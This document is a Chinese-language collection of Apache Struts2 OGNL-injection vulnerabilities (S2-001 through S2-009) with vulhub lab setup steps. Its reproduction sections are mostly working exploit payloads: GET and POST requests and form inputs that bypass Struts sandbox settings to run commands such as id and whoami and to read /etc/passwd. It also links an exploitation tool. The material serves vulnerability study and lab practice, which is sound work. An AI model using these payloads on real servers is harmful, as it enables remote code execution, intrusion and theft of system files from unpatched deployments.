

# Struts2 系列命令执行漏洞集合

## S2-001

该漏洞是由于 WebWork 2.1+ 和 Struts 2 的 `altSyntax` 特性引起的。 `altSyntax` 特性允许将 OGNL 表达式插入文本字符串并进行递归处理。这允许恶意用户通过 HTML 文本字段提交一个包含 OGNL 表达式的字符串，**如果表单验证失败，服务器将执行该表达式。**

### 影响版本

* [x] WebWork 2.1 (with altSyntax enabled)
* [x] WebWork 2.2.0 - 2.2.5
* [x] Struts 2.0.0 - 2.0.8

### 漏洞复现

1. 运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-001
docker-compose up -d
```

2. 访问 `http://your-ip:8080`，查看如下页面


3. 在输入框中输入 OGNL 表达式 `%{1+1}`，点击提交，测试以下是否会执行表达式，查看如下页面


4. 在输入框中输入如下 OGNL 表达式获取 Tomcat 的路径，点击提交，查看如下页面

```
%{"tomcatBinDir{"+@java.lang.System@getProperty("user.dir")+"}"}
```


5. 在输入框中输入如下 OGNL 表达式获取当前站点的真实路径，点击提交，查看如下页面

```
%{#req=@org.apache.struts2.ServletActionContext@getRequest(),#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter(),#response.println(#req.getRealPath('/')),#response.flush(),#response.close()}
```


6. 在输入框中输入如下 OGNL 表达式执行 `whoami` 命令，点击提交，查看如下页面

```
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```


7. 在输入框中输入如下 OGNL 表达式执行 `cat /etc/passwd` 命令，点击提交，查看如下页面

```
%{
#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"cat","/etc/passwd"})).redirectErrorStream(true).start(),
#b=#a.getInputStream(),
#c=new java.io.InputStreamReader(#b),
#d=new java.io.BufferedReader(#c),
#e=new char[50000],
#d.read(#e),
#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),
#f.getWriter().println(new java.lang.String(#e)),
#f.getWriter().flush(),#f.getWriter().close()
}
```


## S2-005

s2-005 漏洞的起源源于 s2-003（受影响版本：低于 Struts2.0.12），struts2 会将 http 的每个参数名解析为 OGNL 语句执行（可理解为 Java 代码）。OGNL 表达式通过 `#` 来访问 struts 的对象，struts 框架通过过滤 `#` 字符防止安全问题，然而通过 unicode 编码（ `\u0023` )或 8 进制（ `\43` ）即绕过了安全限制，对于 S2-003 漏洞，官方通过增加安全配置（禁止静态方法调用和类方法执行等）来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用 OGNL 表达式将这两个选项打开，S2-003 的修补方式把自己上了一个锁，但是把钥匙插在了锁头上。漏洞触发源于 ParameterInterceptor 拦截器中，可通过构造参数绕过正则限制从而执行 OGNL 表达式。

绕过过程大致分为三步：

1. 在 S2-003 中 `\u0023` 用于绕过 struts2 的过滤器 `#`
2. 在 S2-003 struts2 添加安全模式（沙盒）之后
3. 在 S2-005 中，使用 OGNL 表达式关闭安全模式并再次绕过

### 影响版本

* [x] Struts 2.0.0 - 2.1.8.1

### 漏洞复现

1. 运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-005
docker-compose up -d
```

2. 访问 `http://your-ip:8080`，查看如下页面


3. 无回显命令执行 PoC (GET)

```
(%27%5cu0023_memberAccess[%5c%27allowStaticMethodAccess%5c%27]%27)(vaaa)=true&(aaaa)((%27%5cu0023context[%5c%27xwork.MethodAccessor.denyMethodExecution%5c%27]%5cu003d%5cu0023vccc%27)(%5cu0023vccc%5cu003dnew%20java.lang.Boolean(%22false%22)))&(asdf)(('%5cu0023rt.exec(%22touch@/tmp/success%22.split(%22@%22))')(%5cu0023rt%5cu003d@java.lang.Runtime@getRuntime()))=1
```


4. 有回显命令执行 PoC (POST)

```
POST /example/HelloWorld.action HTTP/1.1
Accept: application/x-shockwave-flash, image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1; SV1; .NET CLR 2.0.50727; MAXTHON 2.0)
Host: 192.168.10.10:8080
Content-Length: 626

redirect:${%23req%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletReq%27%2b%27uest%27),%23s%3dnew%20java.util.Scanner((new%20java.lang.ProcessBuilder(%27%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64%27.toString().split(%27\\s%27))).start().getInputStream()).useDelimiter(%27\\AAAA%27),%23str%3d%23s.hasNext()?%23s.next():%27%27,%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),%23resp.setCharacterEncoding(%27UTF-8%27),%23resp.getWriter().println(%23str),%23resp.getWriter().flush(),%23resp.getWriter().close()}
```

???+ tip "最好将需要执行的命令进行 urlencode 编码"

`cat /etc/passwd` -> `%63%61%74%20%2f%65%74%63%2f%70%61%73%73%77%64`




## S2-007

当配置了验证规则 `<ActionName>-validation.xml` 时，若类型验证转换出错，后端默认会将用户提交的表单值通过字符串拼接，然后执行一次 OGNL 表达式解析，从而造成远程代码执行。

例如 age 是来自于用户输入，但是传递了一个非整数而导致错误，struts 会将用户的输入当作 OGNL 表达式执行，从而导致了漏洞。

### 影响版本

* [x] Struts 2.0.0 - 2.2.3

### 漏洞复现

1. 运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-007
docker-compose up -d
```

2. 访问 `http://your-ip:8080`，查看如下页面，在 age 输入框中输入非整数字符，点击提交，此时如果输入不正确的数据类型，会校验失败并提示，如下图


3. 任意命令执行 PoC，执行 `id` 命令

```
name=a&email=a&age=%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%29+%2B+%27
```


4. 任意命令执行 PoC，执行 `cat /etc/passwd` 命令

```
name=a&email=a&age=%27+%2B+%28%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23foo%3Dnew+java.lang.Boolean%28%22false%22%29+%2C%23context%5B%22xwork.MethodAccessor.denyMethodExecution%22%5D%3D%23foo%2C%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%27cat%20/etc/passwd%27%29.getInputStream%28%29%29%29+%2B+%27
```


## S2-008

S2-008 还是对 S2-003 的绕过，通过 S2-003/S2-005 ，Struts 2 为了阻止攻击者在参数中植入恶意 OGNL，设置了 `xwork.MethodAccessor.denyMethodExecution` 以及 `SecurityMemberAccess.allowStaticMethodAccess` ，并使用白名单正则 `[a-zA-Z0-9\.][()_']+` 来匹配参数中的恶意调用，但是在一些特殊情况下，这些防御还是可以被绕过。Cookie 拦截器错误配置可造成 OGNL 表达式执行；在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令；官方文档提出了 4 种绕过防御的手段，其中关注比较多的是 devMode 模式导致的绕过。

### 影响版本

* [x] ，Struts 2.1.0 - 2.3.1

### 漏洞复现

1. 运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-008
docker-compose up -d
```

2. 访问 `http://your-ip:8080`，查看如下页面


3. devMode 模式导致的 RCE, PoC 如下

```
/devmode.action?debug=command&expression=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=id
```


## S2-009

ParametersInterceptor 拦截器只检查传入的参数名是否合法，不会检查参数值。因此可先将 Payload 设置为参数值注入到上下文中，而后通过某个特定语法取出来就可以执行之前设置过的 Payload。

OGNL 提供了广泛的表达式评估功能等功能。该漏洞允许恶意用户绕过 ParametersInterceptor 内置的所有保护（正则表达式，拒绝方法调用），从而能够将任何暴露的字符串变量中的恶意表达式注入进行进一步评估。
在 S2-003 和 S2-005 中已经解决了类似的行为，但事实证明，基于列入可接受的参数名称的结果修复仅部分地关闭了该漏洞。
ParametersInterceptor 中的正则表达式将 top ['foo']（0）作为有效的表达式匹配，OGNL 将其作为（top ['foo']）（0）处理，并将“foo”操作参数的值作为 OGNL 表达式求值。这使得恶意用户将任意的 OGNL 语句放入由操作公开的任何 String 变量中，并将其评估为 OGNL 表达式，并且由于 OGNL 语句在 HTTP 参数中，攻击者可以使用黑名单字符（例如＃）禁用方法执行并执行任意方法，绕过 ParametersInterceptor 和 OGNL 库保护。

### 影响版本

* [x] Struts 2.1.0 - 2.3.1.1

### 漏洞复现

1. 运行靶场

```bash
git clone https://github.com/vulhub/vulhub.git
cd vulhub/struts2/s2-009
docker-compose up -d
```

2. 访问 `http://your-ip:8080`，查看如下页面


3. 任意命令执行 PoC，执行 `id` 命令

```
/showcase.action/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27id%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]

```


4. 任意文件读取 PoC，读取 `/etc/passwd` 文件

```
/showcase.action/ajax/example5.action?age=12313&name=(%23context[%22xwork.MethodAccessor.denyMethodExecution%22]=+new+java.lang.Boolean(false),+%23_memberAccess[%22allowStaticMethodAccess%22]=true,+%23a=@java.lang.Runtime@getRuntime().exec(%27cat%20/etc/passwd%27).getInputStream(),%23b=new+java.io.InputStreamReader(%23a),%23c=new+java.io.BufferedReader(%23b),%23d=new+char[51020],%23c.read(%23d),%23kxlzx=@org.apache.struts2.ServletActionContext@getResponse().getWriter(),%23kxlzx.println(%23d),%23kxlzx.close())(meh)&z[(name)(%27meh%27)]
```


*未完待续...*

## Tools

* [K8 Struts2 EXP 综合漏洞利用工具](https://k8gege.org/p/ab3e87f7.html)

## Ref

* [Struts2 漏洞复现集合-Freebuf](https://www.freebuf.com/articles/web/280245.html)
* [Struts2 漏洞集合分析与梳理-跳跳糖](https://tttang.com/archive/1583/#toc_0x00-s2-001)
* [Struts2 系列漏洞调试总结-素十八](https://su18.org/post/struts2-5/)
